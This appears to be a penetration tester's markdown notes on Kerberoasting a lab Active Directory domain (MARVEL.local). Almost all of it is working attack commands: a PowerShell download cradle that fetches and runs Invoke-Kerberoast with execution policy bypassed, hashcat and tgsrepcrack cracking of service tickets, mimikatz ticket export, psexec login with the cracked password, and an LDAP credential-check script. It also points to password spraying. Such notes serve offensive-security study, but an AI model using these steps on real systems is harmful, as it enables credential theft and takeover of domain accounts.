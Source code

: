 #### Fast method - Hashcat
```
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
```
[[4._File Transfers#Certutil]]
[[2._Powershell  Bypass]]
If already transferred, just run:
```
Import-Module .\Invoke-Kerberoast.ps1
```
```
Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
OR use **either** cmd or powershell to execute Invoke-Kerberoast into Hashcat format:
```batch - windows
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
```powershell - windows
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
```
Paste hash into notepad++, select all, press CTRL+J to join all the lines together.  CRTL+H > enable Regular express.  Replace the spaces in the document with:
Find what: \s*
Replace with:
Copy to hashes.txt
```batch - windows
hashcat.exe -m 13100 hashes.txt rockyou.txt -O
```
SQLService
MYpassword123#
```
psexec.py MARVEL.local/SQLService:MYpassword123#@$TARGET
```
#### GetUserSPNs - Kerberoast
```
wget https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1
```
```powershell - windows
.\GetUserSPNs.ps1
```
ServicePrincipleName: ==HYDRA-DC/SQLService.MARVEL.local:60111==
```
Add-Type -AssemblyName System.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HYDRA-DC/SQLService.MARVEL.local:60111"
```
```Powershell
klist
```
```batch - mimikatz
kerberos::list /export
```
Files can be found in the same directory as mimikatz.exe.  Transfer it to Kali.
[[4._File Transfers]]
```bash - Kali
sudo apt update && sudo apt install kerberoast
```
OR
```bash - Kali
git clone https://github.com/nidem/kerberoast
```
```bash - Kali
cd kerberoast
```
```python - Kali
python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt ../1-40a50000-groot@LDAP~Xandar.MARVEL.local~MARVEL.local-MARVEL.LOCAL.kirbi
```
MYpassword123#
---
==CredsTest.ps1==
```Powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "SQLService", "MYpassword123#")
```
---
#### Spray-Passwords.ps1
[[9_Password Spraying]]
